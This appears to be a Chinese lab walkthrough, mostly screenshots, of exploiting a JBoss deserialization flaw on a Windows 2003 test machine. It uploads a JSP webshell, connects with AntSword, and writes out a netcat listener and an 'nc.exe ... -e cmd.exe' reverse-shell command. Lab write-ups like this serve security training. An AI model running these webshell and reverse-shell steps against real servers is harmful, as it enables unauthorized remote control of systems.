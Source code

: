 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V49dtgHlzMshibrQ7ZLCQEZxX40rDIMnJUmP2Ya51xKPwxCMCqQuQMzIw/640?wx_fmt=png&from=appmsg "")  
  
**上传成功**  
# 连接蚁剑  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4NDsTN2A0YNdWAWvEUuKEGfWT3MKtpWSrEDjz0X3Ctd0tnokib2rmRCA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4UJdLgWkdXJwqjOsTkwYAbweBGWnib1XB3yxwVsgzbdPOtTnV7f3GOWQ/640?wx_fmt=png&from=appmsg "")  
  
**连接成功**  
# 漏洞检测  
  
（1）访问链接(自己的IP)http://192.168.2.148:8080/invoker/readonly  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4Iu1UUthWIJsiaibuPO8NFpEKUJMQEBIMKGBxD90UIwTjvicBFxNdNRh1w/640?wx_fmt=jpeg&from=appmsg "")  
返回 500，一般就可以认为反序列漏洞存在检测发现漏洞  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4LicNjpGmFbsVmiaMPLCPRiawR4Dl5kHmdsmOk5ZuZwMgYbiaX1wa3stlVQ/640?wx_fmt=png&from=appmsg "")  
  
  
**执行**  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4icoJ6iceydLP1AdfdDNpx2Z6LZicFpatakEUduUHHuF5UhNjyIp6C4HXw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4CpDsDRgKy8bvuUk7DtJIAduEuAGKic2ibehjluyfL4LYbcCsZ4vVovpQ/640?wx_fmt=png&from=appmsg "")  
  
**命令执行成功！！**  
# 反弹shell  
## 蚁剑反弹  
### 开启监听端口  
  
前面已经上传了jsp木马，蚁剑成功连接上了，先在kali开启监听窗口  
```
nc -lvvp 8888
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V41yGfdQwxWfJcVugTJ4wxQ4mJxS00qicWYEF2icEY8flMzib2XyqYDt9iaA/640?wx_fmt=png&from=appmsg "")  
### nc反弹shell  
  
我们先把nc上传到win2003（受害机），下载地址：https://eternallybored.org/misc/netcat/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4hlYrUeVfAsnPsNpCialKWXpq9OVPD5wkwZjrBL2hy7oQqwibdO6taC4Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSbYqichFnO2rkVBMEdsC0V4TI0EaRhYqOS9nwUndrwekwAXNBJlSOQn7SicnpKWXwa24zgVXyZjwIQ/640?wx_fmt=png&from=appmsg "")  
```
nc.exe 192.168.2.129 8888 -e cmd.exe
```  
  